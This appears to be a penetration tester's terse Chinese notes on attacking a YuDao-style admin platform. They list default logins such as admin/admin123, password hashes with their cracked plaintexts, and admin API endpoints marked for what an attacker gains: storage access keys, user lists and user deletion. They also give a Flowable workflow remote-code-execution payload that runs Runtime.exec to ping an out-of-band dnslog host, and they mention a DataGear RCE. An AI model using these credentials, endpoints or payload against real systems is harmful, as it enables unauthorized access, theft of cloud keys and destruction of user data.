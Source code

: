 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



/infra/data-source-config
可能前后端分离


存储桶，存储位置，aksk
/admin-api/infra/file-config/page

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create

初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page
操作日志，无用
/admin-api/web-api/system/dict/data/list-all-simple


用户列表
/admin-api/web-api/selfcom/user/list
/web-api/selfcom/user/list



删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE

